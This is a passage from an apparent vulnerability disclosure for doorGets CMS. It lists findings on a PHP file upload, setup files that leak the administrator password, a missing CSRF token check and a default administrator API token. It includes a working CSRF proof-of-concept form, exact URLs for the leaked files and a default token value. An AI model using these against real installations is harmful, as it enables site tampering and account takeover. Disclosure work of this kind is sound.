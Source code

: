 ```

Finally upload the .php file with the following request:

![48.png](./img/48.png)

Visit ```http://domain.com/fileman/test.php``` and find that the .php file was uploaded successfully:

![49.png](./img/49.png)


**[11]**

After the doorGets CMS is built, the administrator account password is deserialized and stored in the php file, but the file is not a php executable file, causing sensitive content to leak.

Request the following address:```
http://domain.com/setup/temp/admin.php
http://domain.com/setup/temp/database.php```

![50.png](./img/50.png)

![51.png](./img/51.png)


**[12]**

In \doorgets\app\requests\user\configurationRequest.php
Line 837 when $_GET['action']= analytics, due to the lack of the following statement to verify the token:
```if (!empty($this->doorGets->Form->i) && empty($this->doorGets->Form->e))```
An attacker can modify the "Google Analytics code" of a website through a CSRF attack.

If the administrator visits the following page, "Google Analytics code" will be changed to "3333":
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1:8003/dg-user/?controller=configuration&action=analytics" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="configuration_analytics_analytics" value="3333" />
      <input type="hidden" name="configuration_analytics_submit" value="Save" />
    </form>
	<script>document.forms[0].submit();</script>
  </body>
</html>
```

**[13]**

After the doorGets cms is created, the database table _users_access_token has several records by default:

![52.png](./img/52.png)

You can also get this value by downloading /setup/data/database.zip.

The administrator's id is 7, and his token is:```
H0XZlT44FcN1j9LTdFc5XRXhlF30UaGe1g3cZY6i1K9```

In the \doorgets\core\api\doorGetsApi.php:

```